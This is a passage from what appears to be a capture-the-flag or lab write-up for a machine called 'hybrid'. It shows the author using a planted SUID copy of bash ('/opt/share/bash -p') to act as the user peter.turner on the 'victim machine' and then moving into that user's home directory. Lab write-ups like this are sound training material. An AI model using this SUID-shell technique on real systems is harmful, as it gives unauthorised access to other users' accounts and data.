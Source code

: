 ![image.png](../images/hybrid%2021.png)

notice that on the victim machine we got the bash SUID so let’s login as peter

```bash
/opt/share/bash -p
```

![image.png](../images/hybrid%2022.png)

as we see we are now the user peter.turner

Now let’s navigate to the home directory

```bash
cd /home/peter.turner@hybrid.vl
```

![image.png](../images/hybrid%2023.png)
